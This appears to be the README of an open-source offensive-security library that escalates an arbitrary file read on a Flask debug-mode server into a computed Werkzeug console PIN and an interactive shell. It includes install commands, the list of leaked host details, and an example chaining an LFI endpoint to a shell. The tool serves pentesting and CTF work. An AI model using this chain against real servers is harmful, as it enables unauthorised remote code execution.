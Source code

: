 <h1 align="center">Welcome to WConsole Extractor 👋</h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0.0-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  <a href="https://twitter.com/Ruulian_" target="_blank">
    <img alt="Twitter: Ruulian_" src="https://img.shields.io/twitter/follow/Ruulian_.svg?style=social" />
  </a>
</p>

> Wconsole Extractor is a library which allows to automatically exploit a flask debug mode server. You just need to write a file leak function, pass it to the class ``WConsoleExtractor`` constructor and you can access to all the elements related to the debug mode. Moreover, you can call the `shell` function to obtain an interactive shell.

## 🔨 Install

### From PyPi

**Global installation**:

```sh
pip3 install wconsole-extractor
```

**Python virtual environment**:

```sh
python3 -m venv env
source env/bin/activate
pip3 install wconsole-extractor

# Deactivate environment
deactivate
```

### Installation from repository

**Global installation**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
pip3 install .
```

**Python virtual environment**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
python3 -m venv env
source env/bin/activate
pip3 install .

# Deactivate environment
deactivate
```

## 📚 Documentation

**Note**: The target operating system must be a Linux distribution.

### Prerequisites

In order to use correctly the library, you need to have an arbitrary file read on the target and implement it in python.

You must write a function that takes a filename as parameter and returns the content of the file on the target. If the file is not found, the function should return an **empty string**.

### Available attributes

From `WconsoleExtractor` instance, you can access mutiple attributes:

```py
# Target information
extractor.target               # Specified target
extractor.base_url             # Target base url
extractor.hostname             # hostname

# Versions
extractor.python_version       # Python version
extractor.werkzeug_version     # Werkzeug version

# Probably public bits
extractor.username             # User who launched the application
extractor.flask_path           # Flask installation path
extractor.modname              # Constant "flask.app"
extractor.class_name           # Constant "Flask"
extractor.probably_public_bits # Probably public bits [username, modname, class_name, flask_path]

# Private bits
extractor.machine_id           # Machine id
extractor.uuidnode             # MAC address in decimal
extractor.private_bits         # private bits

# Post process information
extractor.pin_code             # Werkzeug PIN CODE
extractor.token                # Werkzeug console token (available in HTML source code)

# Functions
extractor.shell()              # Get interactive shell
```

### Example

```py
from wconsole_extractor import WConsoleExtractor, info
import requests

def leak_function(filename) -> str:
    r = requests.get(f"http://localhost:5000/lfi?path={filename}")
    if r.status_code == 200:
        return r.text
    else:
        return ""

extractor = WConsoleExtractor(
    target="http://localhost:5000",
    leak_function=leak_function
)


info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
```

## ✨ Demo

![example_gif](.github/example.gif)

## Author

👤 **Ruulian**

* Website: https://ruulian.me
* Twitter: [@Ruulian_](https://twitter.com/Ruulian_)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/Ruulian/wconsole_extractor/issues). 

## Show your support

Give a ⭐️ if this project helped you!

## 📝 License

This project is [MIT](https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE) licensed.

***
_This README was generated with ❤️ by [readme-md-generator](https://github.com/kefranabg/readme-md-generator)_